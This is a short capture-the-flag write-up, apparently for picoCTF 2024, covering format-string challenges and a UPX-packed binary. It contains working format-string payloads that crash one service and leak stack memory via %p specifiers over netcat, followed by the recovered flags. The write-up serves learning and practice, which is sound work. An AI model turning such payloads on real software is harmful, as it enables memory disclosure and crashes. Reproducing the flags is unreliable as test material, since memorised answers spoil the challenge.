 and now you can find the half ouput.

## format-string  0
honestly i just choose  random and got the flag
```bash
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```


## formant-string 1

the use of ```printf(buf);``` can lead to a format string vulnerability, where an attacker can exploit this to execute arbitrary code or read from the stack.
were gonna use %p payload to reveal the memory address from the stack , can refer [here](https://ir0nstone.git book.io/notes/types/stack/format-string)

```bash
[eyun@eax ~]$ nc mimas.picoctf.net 53103
Give me your order and I'll read it back to you:
%14$p.%15$p.%16$p.%17$p.%18$p.%22$p.%23$p 
Here's your order: 0x7b4654436f636970.0x355f31346d316e34.0x3478345f33317937.0x35625f673431665f.0x7d663839623764.0x206e693374307250.0xa336c797453
Bye!
```

Then reorder the hex according to LIFO order.
[ref 1](https://github.com/noamgariani11/picoCTF-2024-Writeup/blob/main/Binary%20Explotation/format-string-1.md) , [ref 2](https://medium.com/@mastercode112/picoctf-2024-writeup-by-mastercode-d9eae91698a1)

## Packer

```bash
[eyun@eax Downloads]$ upx -d out 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
[WARNING] bad b_info at 0x4b718

[WARNING] ... recovery at 0x4b714

    877724 <-    336520   38.34%   linux/amd64   out
```
